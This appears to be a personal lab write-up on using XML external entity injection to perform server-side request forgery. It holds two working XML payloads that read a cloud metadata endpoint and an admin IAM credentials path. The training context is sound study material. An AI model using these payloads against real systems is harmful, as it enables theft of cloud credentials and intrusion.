 # Exploiting XXE to perform SSRF attacks

Same application as in [[Lab 1]] this time the resource to be parsed by the external entity is: `http://169.254.169.254/`

So the payload will be 
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck>
	<productId>
	&xxe;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```

The application retrieves:

![[strange.png]]

It took me a while to understand the `latest`, but checking [this](https://docs.aws.amazon.com/AWSEC2/latest/WindowsGuide/instancedata-data-retrieval.html) resource it was clear that the server was responding with the directory listing, following the path of each response, the following payload will solve the lab.

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
	<productId>
	&xxe;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```

![[XXE/Labs/XXE2SSRF/images/exploited.png]]